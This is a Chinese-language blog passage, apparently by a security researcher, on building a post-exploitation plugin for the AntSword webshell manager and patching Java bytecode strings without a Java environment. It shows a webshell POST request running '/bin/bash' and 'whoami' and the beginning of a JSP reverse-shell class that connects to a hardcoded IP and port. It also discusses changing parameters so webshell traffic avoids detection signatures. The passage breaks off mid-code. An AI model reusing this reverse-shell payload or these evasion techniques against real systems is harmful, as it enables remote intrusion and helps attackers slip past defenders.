 # 无java环境修改字节码

<meta name="referrer" content="no-referrer" />

## 前言

上次巅峰极客线下赛跟yan表哥面了基，一起磕了瓜子聊了聊天。结合当时的比赛情况回来之后想搓一个蚁剑的后渗透插件，今天想跟大家分享一下其中的一个点：无java环境如何修改字节码。

## 正文

### 需求

在[蚁剑改造计划之实现JSP一句话](https://yzddmr6.tk/posts/antsword-diy-3/)中，当时为了解决硬编码字节码的问题采用了额外参数的方式来传参。但是同时带来的问题就是键名的固定跟额外带来的编码问题，很容易成为一个特征。

例如

```
POST:   ant=xxxxxxxxxxxxxxx&var1=/bin/bash&var2=whoami
```

蚁剑没有java环境，所以没办法像冰蝎一样调用asm框架来修改字节码。但是我们也不需要asm框架那么强大的功能，实际上只需要修改其中的一个字符串的值就可以了，那么怎么实现呢？这个要从字节码的结构说起。

### Java字节码结构

这里以As_Exploits中的jsp反弹shell的payload为例

```
import java.io.*;
import java.net.Socket;

public class ShellReverseTCP extends Thread {

    InputStream zj;
    OutputStream sd;
    public static String ip;
    public static String port;

    ShellReverseTCP(InputStream zj, OutputStream sd) {
        this.zj = zj;
        this.sd = sd;
    }

    public ShellReverseTCP() {

    }
    @Override
    public boolean equals(Object obj){
        ip="targetIP";
        port="targetPORT";
        try {
            RunShellReverseTCP();
            return true;
        }catch (Exception e){
            return false;
        }

    }

    public static void main(String[] args) {
        ip="192.168.88.129";
        port="9999";
        ShellReverseTCP shellReverseTCP = new ShellReverseTCP();
```